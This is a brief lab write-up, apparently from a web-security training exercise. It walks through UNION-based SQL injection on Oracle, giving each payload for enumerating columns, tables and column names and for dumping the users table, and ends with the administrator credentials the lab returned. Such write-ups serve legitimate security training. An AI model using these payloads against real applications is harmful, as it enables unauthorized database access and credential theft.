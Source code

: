 # Lab: SQL injection attack, listing the database contents on Oracle

Determine number of columns: `'UNION+SELECT+NULL,NULL+FROM+all_tables--`

Get the tables in the DB with `''UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables--`

Searching for "users" in the returned data, "USERS_WWGNIL" looks like a good candidate for holding usernames/passwords.

Try finding the columns in the table: `'UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name='USERS_WWGNIL'--`

This returns:
```
PASSWORD_RTLRHZ
USERNAME_CKNTHQ
```

Query the columns: `'UNION+SELECT+USERNAME_CKNTHQ,PASSWORD_RTLRHZ+FROM+USERS_WWGNIL--`

Login with the returned creds:
```
administrator
on42mldc6o0tk3w7ri75
```